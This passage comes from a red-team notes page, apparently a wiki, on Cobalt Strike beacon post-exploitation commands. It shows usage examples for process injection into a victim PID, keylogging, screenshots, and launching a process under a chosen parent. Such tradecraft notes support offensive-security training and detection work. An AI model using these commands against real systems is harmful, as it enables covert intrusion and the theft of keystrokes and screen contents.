 {% content-ref url="../defense-evasion/masquerading-processes-in-userland-through-_peb.md" %}
[masquerading-processes-in-userland-through-\_peb.md](../defense-evasion/masquerading-processes-in-userland-through-\_peb.md)
{% endcontent-ref %}

{% content-ref url="../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md" %}
[exploring-process-environment-block.md](../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md)
{% endcontent-ref %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:

![](<../../.gitbook/assets/Peek 2019-01-07 20-16.gif>)

### Keylogger

{% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-31-30.png>)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-33-51.png>)

### Runu

Runu allows us launching a new process from a specified parent process:

{% code title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode %}
